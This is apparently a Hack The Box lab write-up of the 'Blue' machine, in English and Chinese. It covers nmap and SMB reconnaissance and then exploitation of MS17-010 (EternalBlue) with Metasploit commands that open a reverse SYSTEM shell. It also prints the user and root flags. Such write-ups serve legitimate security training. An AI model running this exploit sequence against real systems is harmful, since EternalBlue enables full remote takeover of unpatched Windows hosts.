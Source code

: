 ```yaml
---
title : "Hack The Box - Blue"
author: fsociety
date: 2024-04-24 11:18:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [EternalBlue,ms17-010,CVE-2017-0143,永恒之蓝漏洞]
---
```


![image](../assets/post_img/Snipaste_2024-04-24_15-23-41.png)

**Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.**

```
Blue，展示了 EternalBlue 漏洞的严重性
自公开泄露以来
已被用于多次大规模勒索软件和加密货币挖矿攻击
```

---

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```console
nmap -sC -sV -Pn 10.129.58.31 -vv > nmap_tcp_scan.conf

PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-24T08:19:36+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-24T07:19:36
|_  start_date: 2024-04-24T06:59:42
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64928/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24997/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60696/udp): CLEAN (Failed to receive data)
|   Check 4 (port 38001/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -20m28s, deviation: 34m35s, median: -30s
```

### <span style="color:lightgreen">SMB - TCP 445</span>

```console
smbmap -H 10.129.58.31 -u "0xdf -p "0xdf
[+] Guest session   	IP: 10.129.58.31:445	Name: 10.129.58.31                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY

```

Share Users 可读

```console
smbclient //10.129.58.31/Share
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 14:48:44 2017
  ..                                  D        0  Fri Jul 14 14:48:44 2017

		4692735 blocks of size 4096. 656872 blocks available

smb: \>

smbclient //10.129.58.31/Users
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 07:56:23 2017
  ..                                 DR        0  Fri Jul 21 07:56:23 2017
  Default                           DHR        0  Tue Jul 14 08:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:54:24 2009
  Public                             DR        0  Tue Apr 12 08:51:29 2011
```

nothing

### <span style="color:lightgreen">Vulns</span>

检查已知漏洞
```console
nmap -p 445 -script vuln 10.129.58.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-24 08:35 BST
Nmap scan report for 10.129.58.31
Host is up (0.0022s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
```

ms17-010
CVE-2017-0143
永恒之蓝漏洞

WannaCry

## <span style="color:lightblue">Shell as System</span>

EternalBlue是在Windows的SMB服务处理SMB v1请求时发生的漏洞

这个漏洞导致攻击者在目标系统上可以执行任意代码

### <span style="color:lightgreen">Metasploit</span>

```bash
sudo msfconsole -q

windows/smb/ms17_010_eternalblue

set rhosts 10.129.58.31
set lhost 10.10.14.16
exploit
```


```bash
(Meterpreter 1)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

```
c:\Users\haris\Desktop>type user.txt
type user.txt
e6ac0ed91c80d1622f0bc6d8adcc3c8d

c:\Users\Administrator\Desktop>type root.txt
type root.txt
384723cece064b898599144837cc390f
```

### <span style="color:lightgreen">Python Script</span>

```console

```

![image](../assets/post_img/Snipaste_2024-04-24_15-50-04.png)